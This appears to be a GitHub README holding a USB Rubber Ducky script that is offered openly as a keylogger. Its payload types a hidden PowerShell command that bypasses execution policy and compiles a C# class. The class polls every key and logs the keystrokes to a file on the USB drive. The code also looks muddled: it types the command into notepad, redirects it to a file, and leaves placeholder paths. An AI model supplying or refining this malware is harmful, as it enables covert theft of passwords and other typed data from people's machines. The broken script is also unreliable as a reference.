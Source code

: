 # rubberduckykeylog
This Rubber Ducky Script save all keyboard touch in your choosen path 



DELAY 1000
REM ----- Rubber Ducky Keylogger -----
REM ----- Autorun -----
WINDOWS + R
DELAY 500
STRING notepad
ENTER
DELAY 500
STRING start /MIN powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "$usbPath = Get-WmiObject Win32_Volume | ? { $_.Label -eq 'YOUR_USB_LABEL' } | Select-Object -ExpandProperty Name; $logFile = $usbPath + '\keylogs.txt'; Add-Type -TypeDefinition 'using System; using System.IO; using System.Windows.Forms; using System.Diagnostics; using System.Runtime.InteropServices; public class KeyLogger { [DllImport(\"user32.dll\")] public static extern int GetAsyncKeyState(Int32 i); public static void Main() { StreamWriter sw = new StreamWriter(File.Create(@\"' + $logFile + '\")); while (true) { for (Int32 i = 0; i < 255; i++) { int keyState = GetAsyncKeyState(i); if (keyState == 1 || keyState == -32767) { sw.Write((Keys)i + \",\"); } } } } }'; $sourceCode = @(' + '"' + 'YOUR_SOURCE_CODE_HERE' + '"' + '); $sourceCode = $sourceCode.Replace(' + '"' + '\\"' + '"' + ', ' + '"' + '"' + '); File.WriteAllText(' + '"' + 'YOUR_SOURCE_CODE_PATH' + '"' + ', $sourceCode); (New-Object System.Diagnostics.ProcessStartInfo -Property @{ FileName = ' + '"' + 'YOUR_COMPILER_PATH' + '"' + '; Arguments = ' + '"' + 'YOUR_SOURCE_CODE_PATH' + '"' + '; CreateNoWindow = $true; UseShellExecute = $false; }).Start(); Start-Sleep -Seconds 2; Remove-Item ' + '"' + 'YOUR_SOURCE_CODE_PATH' + '"' + ';' >C:\keylogger.txt
ENTER
DELAY 500
ALT F4
DELAY 500
STRING exit
ENTER


